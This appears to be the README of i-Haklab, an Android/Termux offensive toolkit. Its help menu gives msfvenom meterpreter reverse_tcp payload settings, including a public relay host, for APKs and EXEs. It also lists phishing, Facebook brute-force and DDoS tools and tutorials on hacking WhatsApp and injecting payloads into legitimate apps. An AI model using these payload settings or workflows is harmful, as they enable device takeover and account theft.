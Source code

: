 # i-Haklab v.1.0 2019 by @Ivam3
	DISCLAIMER
Please do not use in military or secret service organizations, or for illegal purposes.
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

To get help about how to use it join to irc chat in i-Haklab command
		: $ i-Haklab weechat

To report some issues join to >> https://t.me/Ivam3_Bot

# What is i-Haklab ?

- i-Haklab Is a hacking laboratory that contains open source tools recommended by Ivam3 with automation hacking commands. i-Haklab use oh my fish insteractive shell, to get help about its use going to >> https://fishshell.com/docs/current/tutorial.html.

# Process during installation

i-haklab will ......
- check if your android device has some root, if so, it will install the sudo command.
- check if termux has permission to access the external memory, thus, in there it will create a directory called homeroot and there will install the tools and/or frameworks. otherwise they will be installed in the directory /data/data/com.termux/files/home. By the way, in case of Termux is installed in a second partition of your external memory those will be in /data/sdext2/data/com.termux/files/home.
- Once the installation of the tools and/or frameworks is finished, i-Haklab will ask you to configure your password, security question and answer, which will be necessary to start session in i-Haklab.
- i-Haklab has the "lock" command which will block the screen and it will only be unlocked with said password or answering the security question. It is worth mentioning that these access codes are encrypted for your security
- Coupled with it i-Haklab has an automation command for updating, installing and uninstalling tools and books, and executing hacking processes under a single command. under the command we will find the weechat argument, with which you can join the official IRC Ivam3byCinderella ((Internet Relay Chat (IRC) is an application layer protocol that facilitates communication in the form of text. The chat process works on a client/server networking model)).

To see the main menu Just execute from the command line 

		: $ i-Haklab --help

# i-Haklab help menu

:
Syntax: i-Haklab [-arg-] [-option-]

Arguments  |    Options     |    Description

╰─help─────➤────────────────➤ Show this help menu
╰─list─────➤────────────────➤ List all available tools/frameworks
╰─show─────➤──tools/books───➤ Show tools details and books availables
|   ╰──────➤──tutorials/QG──➤ Show tutorials and Quick Guides availables
╰─install──➤───tool/book────➤ Install tools or books
╰─remove───➤─────tool───────➤ Remove tools
╰─weechat──➤────────────────➤ Connect with irc Ivam3byCinderella chat
╰─update───➤────────────────➤ Update i-Haklab
╰─upgrade──➤────────────────➤ upgrade i-Haklab by installing/upgrading tools
╰─version──➤────────────────➤ Show i-Haklab version installed
|       |        |
[--] Automatitation Arguments [--]
Arguments  |    options     |    Description
╰─handler──➤──file.rc name──➤ Start handler on msfconsole with previous setting
╰───apk────➤──inlan/outlan──➤ Create a coded payload apk with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=android/meterpreter/reverse_tcp apk=inlan.apk
|                     ╰─────➤ LPORT=48263 LHOST=serveo.net apk=outlan.apk
|                             Payload=android/meterpreter/reverse_tcp
╰─paylink──➤─pc/nexam/soa5──➤ Create a link payload with handler
|             ╰───|────|────➤ For targets [0]generic, [1]windows, [2]macOS and [3]linux
|                 |    |      example: i-Haklab paylink pc 2
|                 ╰────|────➤ For targets [0]nexxus and [29]samsung
|                      |      example: i-Haklab paylink nexam 29
|                      ╰────➤ For android operative system equal at version 5 to down
╰──payexe──➤──inlan/outlan──➤ Create a coded payload .exe with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=windows/meterpreter/reverse_tcp file=inlan.exe
|                     ╰─────➤ LPORT=48263 Payload=windows/meterpreter/reverse_tcp
|                             LHOST=serveo.net apk=outlan.apk
╰─serveo───➤────────────────➤ Start a SSH client to request TCP port forwarding from the server and proxy
|    ╰─────➤────domain──────➤ Start a SSH client to request port forwarding with especific dns

**** If you want to suggest some command do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tools or frameworks available in i-Haklab

01: D-TECT
02: DoS-A-Tool
03: ExiF
05: binchecker
06: blackbox
07: converter
08: adminpanel
09: wpscan
10: aircrack-ng
11: androbugs
12: beef
13: bettercap
14: cc-genpro
15: java
16: credmap
17: crunch
18: embed
19: evilurl
20: fbbrute
21: fbi
22: fuzzdb
23: hakku
24: hatcloud
25: hunner
26: ipgeolocation
27: metasploit
28: ngrok
29: nikto
30: pasterm
31: youtube-dl
32: php-server
33: pybelt
34: recon-ng
35: recondog
36: redhawk
37: routersploit
38: seeker
39: shellphish
40: shellsploit
41: spotichk
42: sqliv
43: sqlmap
44: ssh-server
45: theharvester
46: hydra
47: tor

**** If you want to suggest some tool, do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Games available in i-Haklab

01: 2048
02: angband
03: brogue     
04: curseofwar
05: gnugo
06: greed
07: mathomatic
08: moon-buggy
09: snakegame
10: solitaire

**** If you want to suggest some game do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Books available in i-Haklab

01: Aprende html
02: Chema alonso coleccion
03: Comandos basicos linux
04: Cracking sin secretos
05: Conviertete en hacker by incube2
06: Ethical hacking
07: Hacking con python
08: Hacking etico 101
09: Hacking mexico seguridadofensiva nv.1
10: Hacking the hacker
11: Manual hacking dispositivos moviles
12: Metasploit para pentesters
13: My sql
14: Nmap by computaxion
15: Programa en C
16: Programa en C++
17: Programa en bash
18: Programacion en perl
19: Programacion en php
20: Programacion en ruby
21: Python para todos

**** If you want to suggest some book do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tutorials available in i-Haklab

01: TERMUX TIPS Cap.1
02: TERMUX TIPS Cap.2
03: TERMUX TIPS Cap.3
04: TERMUX TIPS Cap.4
05: TERMUX: Aprendamos como ejecutar comandos
06: TERMUX: Combinación de comandos
07: TERMUX: Instalando el comando Sudo
08: TERMUX: Modifica y/o personaliza el banner de iniciO
09: Termux - Creando contraseña de acceso (logging banner)
10: TERMUX: Youtube-DL
11: METASPLOIT: Instalación
12: METASPLOIT: RuGiR
13: METASPLOIT: Hacking Android inLAN
14: METASPLOIT: Persistencia en Android
15: METASPLOIT: Hacking Android outLAN
16: METASPLOIT: Hackeado Android inLAN con paylink
17: METASPLOIT: EMBED Inyectando payload en app legítima inLAN
18: METASPLOIT: EMBED Inyectando payload en app legítima outLAN
19: Dos-A-TooL - Ataque distribuido de denegación de servicio
20: METASPLOIT - Ataque distribuido de denegación de servicio
21: Kali-nethunter: Como instalarlo(no root)
22: HACKING WHATSAPP 1ra parte
23: HACKING WHATSAPP 2da parte
24: SETOOLKIT - Instalacion
25: PHISHING : Weeman Framework(1ra parte)- Instalación
26: PHISHING : Weeman Framework(2da parte)- Hacking Facebook inLAN
27: PHISHING : Weeman Framework(3ra parte) - Hacking Facebook - Asignacion de dominio(DNS)
28: NGROK : Instalacion
29: PHISHING : WEEMAN (4ta parte) - Hacking Facebook outLAN
30: PHISHING: Shellphish Framework - Hacking redes sociales
31: CRUNCH - Crear diccionearios para ataques de fuerza bruta
32: FBBRUTE - Ataque de fuerza bruta a FACEBOOK
33: FBI - Como sustraer información de un Facebook Hackeado
34: IPGEOLOCATION: Geolocalizacion de IP's en Google Maps
35: ExiF - Extrayendo Meta Datos
36: BETTERCAP - Instalación
37: i-Haklab - TUTORIAL
38: CURSO DE PROGRAMACIÓN EN BASH 1ra Parte
39: CURSO DE PROGRAMACIÓN EN BASH 2da Parte
40: CURSO DE PROGRAMACIÓN EN BASH 3ra Parte

**** If you want to suggest some tutorial do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot



# INSTALLATION

Whit script Ivam3-Haklab

- download the script Ivam3-Haklab in 

		: https://shrt.am/

- move it to Home directory

		: $ mv <downloading directory> $HOME

- execute it by command 

		: $ bash Ivam3-Haklab

Cloning it from Github

- Clone it to home directory

		: $ git clone https://github.com/ivam3/i-Haklab.git $HOME/i-Haklab

- Go to i-Haklab directory

		: $ cd $HOME/i-Haklab

- Give permissions needed

		: $ chmod 711 -R *

- Run the setup file

		: $ bash setup




*** HAVE A NICE HACKING DAY!!!!



# 						@Ivam3
